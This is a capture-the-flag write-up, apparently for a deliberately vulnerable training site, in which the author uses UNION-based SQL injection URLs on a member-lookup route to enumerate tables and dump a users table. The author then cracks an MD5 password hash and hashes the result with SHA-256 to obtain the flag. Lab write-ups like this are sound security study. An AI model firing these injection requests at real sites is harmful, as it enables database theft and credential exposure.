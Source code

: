 For this flag, i used an sql injection from the member get by id route.

Here is the route, normaly used :/index.php?page=member&id=2Submit=Submit

With a union sql injection attack I was able to export 5 tables content.

I was able to extract the table names with this request :
http://{{host}}/index.php?page=member&id=2 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.tables&Submit=Submit

Here is a sample of the union attack, for the db vote_dbs :
http://{{host}}/index.php?page=member&id=2 UNION SELECT nb_vote, subject FROM Member_survey.vote_dbs&Submit=Submit


For this flag, this is the users table that will contain the flag. Here is the exported table :

| user_id | first_name | last_name | town | country | planet | commentaire | countersign |
| --- | --- | --- | --- | --- | --- | --- | --- |
| 1 | one | me | Paris | France | Earth | Je pense, donc je suis | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2 | two | me | Helsinki | Finland | Earth | Aamu on iltaa viisaampi. | 60e9032c586fb422e2c16dee6286cf10 |
| 3 | three | me | Dublin | Irlande | Earth | Dublin is a city of stories and secrets. | e083b24a01c483437bcf4a9eea7c1b4d |
| 5 | Flag | GetThe | 42 | 42 | 42 | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |

As you can see in the countrysign of the user 5, there is some instruction to get the flag.

`5ff9d0165b4f92b14994e5c685cdce28` is a md5 encryption.
Decrypted version is : `FortyTwo` .
Char lowered is `fortytwo` .
And then the sha256 version is : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

So we got the flag !
